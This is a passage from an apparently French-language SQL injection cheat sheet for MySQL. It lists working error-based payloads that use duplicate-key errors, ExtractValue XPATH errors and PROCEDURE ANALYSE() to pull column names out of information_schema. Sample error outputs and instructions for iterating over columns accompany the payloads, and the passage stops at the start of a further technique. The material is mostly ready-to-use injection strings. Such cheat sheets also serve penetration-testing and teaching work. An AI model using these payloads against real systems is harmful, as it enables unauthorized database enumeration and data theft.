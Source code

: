 #### Via les erreurs

AND(SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT(SELECT(SELECT DISTINCT CONCAT(CAST(column_name as char)) FROM information_schema.columns WHERE table_schema='[DB NAME]' AND table_name='[TABLE_NAME]' LIMIT N,1)) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)

**Remarques :**

- Indiquer le nom de la base de données cible, ainsi que le nom de la table dans laquelle extraire les colonnes.
- Faire évoluer la valeur de N de 0 à X pour récupérer le nom de chaque colonne dans les erreurs.

**Résultats :**
**
> #1062 – Duplicate entry ‘myColumn’ for key ‘group_key’
**

AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT N,1)));-- Available in MySQL 5.1.5

**Remarques :**

- Cette seconde méthode, présente depuis MySQL 5.1.5, ne nécessite pas de nom de base ni de nom de table.
- Faire évoluer la valeur de N de 0 à X pour récupérer le nom de chaque colonne dans les erreurs.

**Résultats :**
**
> #1105 – XPATH syntax error: ‘\myColumn’
**

#### Via la procédure « ANALYSE() »

- PROCEDURE ANALYSE()

**Remarques :**

- Il est nécessaire que l’application (web) vulnérable à l’injection SQL affiche la première colonne résultante de la requête.

**Exemples :**
Pour la requête suivante :
SELECT * FROM Table WHERE data=[INJ]

|     |     |
| --- | --- |
| 1 PROCEDURE ANALYSE() | Récupère le nom de la première colonne de la table |
| 1 LIMIT 1,1 PROCEDURE ANALYSE() | Récupère le nom de la seconde colonne |
| 1 LIMIT 2,1 PROCEDURE ANALYSE() | Récupère le nom de la troisième colonne… |

### Récupérer plusieurs tables/colonnes en une fois

#### Technique n°1
